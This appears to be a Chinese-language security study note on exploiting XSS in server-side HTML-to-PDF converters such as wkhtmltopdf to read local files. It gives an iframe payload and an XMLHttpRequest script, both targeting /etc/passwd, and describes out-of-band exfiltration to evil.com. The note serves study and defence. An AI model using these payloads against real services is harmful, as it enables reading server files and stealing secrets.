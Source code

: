 #### XSS利用方式 - 读取本地文件

* 利用XSS读取本地文件 - 利用条件(漏洞根源)
  * 条件1 web后端使用了"同源策略不够严格"的html解析库
  * 条件2 该html解析库的输入(html代码)用户可控
* 实际案例 - 转换html为pdf文件 [Local File Read via XSS in Dynamically Generated PDF](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)
  * 满足条件1 已知html解析库[wkhtmltopdf](https://github.com/wkhtmltopdf/wkhtmltopdf)存在[The same origin policy allows local files to be read by default · Issue #4536](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/4536)
  * 满足条件2 该html解析库的输入(html代码)用户可控
* 利用XSS读取本地文件 - 构造1.html(payload)使解析库解析 能否解析成功取决于不同解析库的具体实现
  * payload类型1 利用XMLHttpRequest发起请求读取`file://`域下的本地文件(在现代浏览器下 因为必须遵循同源策略 与CORS 所以无法成功)
  * payload类型2 利用`<iframe>`标签读取`file://`域下的本地文件 `<iframe src="file:///etc/passwd">`(在现代浏览器下 也可以成功)
  * ...
* 利用XSS读取本地文件 - 结果回显
  * 回显方式1 直接回显 将"文件内容"输出到document 可直接看到经过html解析后的文件`result.pdf`
  * 回显方式2 带外请求 使用JavaScript构造跨域请求 发送携带敏感信息("文件内容")的http请求 到接受信息的`evil.com`域


```html
<!-- 1.html -->

<html>
<body>

<!-- payload 1 -->
<!-- 
原理:用XMLHttpRequest发起请求
注意:这种方法在现代浏览器(Chrome/Firefox等)中无法读取成功 因为现代浏览器中同源策略做了严格的跨域限制

如Chrome浏览器下
无论在任何protocol schemes下 用XMLHttpRequest发起的请求 都必须遵守CORS 而CORS支持的protocol schemes是白名单 即CORS并不支持file://协议! 
所以即使在`file://`域下 同样被CORS限制 无法用XMLHttpRequest读取到`file://`域下其他文件. 报错提示:
Access to XMLHttpRequest at 'file:///etc/passwd' from origin 'null' has been blocked by CORS policy: Cross origin requests are only supported for protocol schemes: http, data, chrome, chrome-extension, https.

如Firefox浏览器下报错提示:
已拦截跨源请求：同源策略禁止读取位于 file:///etc/passwd 的远程资源。（原因：CORS 请求不是 http）。
CORS 请求只能使用 HTTPS URL 方案，但请求指定的 URL 可能是不同类型。这种情况经常发生在 URL 指定本地文件，例如使用了 file:/// 的 URL。
详情https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS/Errors/CORSRequestNotHttp
 -->

<script>
//document.write(window.location.href);// it is file:///tmp/1.html
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();

// payload1 解析JavaScript过程:
//     创建XMLHTTPRequest对象
//     使用该对象`.open`函数 初始化一个新的request(默认异步)
//     再使用该对象的`.send`函数 发送该request去读取`file://`域下的另一文件`file:///etc/passwd`
//     如果解析库没做好跨域防御 则该request的响应内容就是文件`/etc/passwd`的内容
//     使用`document.write`将该request的响应内容(文件内容)写入`document`

</script>



```